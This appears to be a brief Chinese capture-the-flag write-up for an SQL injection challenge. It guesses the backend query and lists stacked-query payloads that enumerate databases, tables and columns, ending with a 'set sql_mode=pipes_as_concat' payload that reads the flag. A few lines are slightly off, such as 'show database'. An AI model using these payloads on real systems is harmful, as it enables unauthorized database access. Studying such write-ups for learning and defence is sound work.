 ## 1.

union注入不可，盲注不可

https://blog.csdn.net/StevenOnesir/article/details/110203051

猜测后端

```
select $_POST['query'] || flag from flag
```

 这里用  

```
*,1
```

放进去后就变成select  *，1 from flag







## 2.堆叠注入

1;show database;

看到ctf

1;use ctf;show tables;

看到Flag

1;use ctf;show columns from Flag;

显示一个数组

```
1;set sql_mode=pipes_as_concat;select 1;
```

这样就变成了

```
select (1.flag) from flag;
```

